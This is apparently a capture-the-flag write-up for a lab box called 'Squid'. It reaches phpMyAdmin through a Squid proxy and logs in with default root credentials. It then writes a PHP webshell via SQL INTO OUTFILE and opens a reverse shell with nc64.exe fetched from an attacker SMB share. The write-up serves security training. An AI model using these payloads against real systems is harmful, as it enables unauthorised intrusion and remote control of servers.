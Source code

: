 # Squid

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.233.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 15:29 +08
Nmap scan report for 192.168.233.189
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
3128/tcp open  squid-http
```

Only one port is open.

### Squid Proxy --> FoxyProxy

The port was a Squid Proxy instance. When visited in a browser, this is all we see:

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

Since this is a proxy service, it might be the gateway that we need to access the services running on the machine itself. To scan the machine, we can include this line in our `/etc/proxychains4.conf` file:

```
socks5 192.168.233.189 3128
```

Afterwards, we can use `proxychains` to scan the machine again to find more ports that are open,  but this takes far too long. Instead, we can use FoxyProxy to attempt to view some interesting ports. I tried with a few ports like 80, 443 and 8080 for websites, and found a service on port 8080.

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

### Default Creds --> SQL RCE

There's a PHPMyAdmin instance present on the page, and we can login using `root` as the username with no password.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Since this is already the administrative interface, we can get a shell by creating a database and then executing some SQL commands in it via the web SQL interpreter.&#x20;

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can select this database and head to the QUERY tab:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We can test it with any query and see that it is indeed processing SQL queries:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Since we can submit queries, we can also write files into the file system of the machine. I wanted to write a basic PHP webshell, but this means we need to know the webroot file. Very conveniently, there's a `phpinfo` page on the main Wampserver page.&#x20;

There, we can find the `DOCUMENT_ROOT`:

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can then use this query to write a webshell onto the machine:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile "C:\\wamp\\www\\backdoor.php"
```

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can test our RCE:

<figure><img src="../../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Great! No all we need to do is get a reverse shell as the user. By setting up a SMB server on our machine with `nc64.exe` within the directory, we can send this to get a shell:

```
http://192.168.233.189:8080/backdoor.php?cmd=\\192.168.45.161\share\nc64.exe+-e+cmd.exe+192.168.45.161+4444
```

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

There is no privilege escalation, because we have successfully gotten a SYSTEM shell.&#x20;

{% hint style="info" %}
This machine was changed since I last did it in 2022. My older writeups show that the machine was running as LOCAL SYSTEM instead of the SYSTEM user.

The old box would give us intial access with the LOCAL SYSTEM user without any privileges, and we had to use either schtasks or FullPowers.exe to give us a shell with the full privileges of a LOCAL SYSTEM user that includes SeImpersonatePrivilege, which we can then use PrintSpoofer.exe or JuicyPotato.exe to get a SYSTEM shell.
{% endhint %}
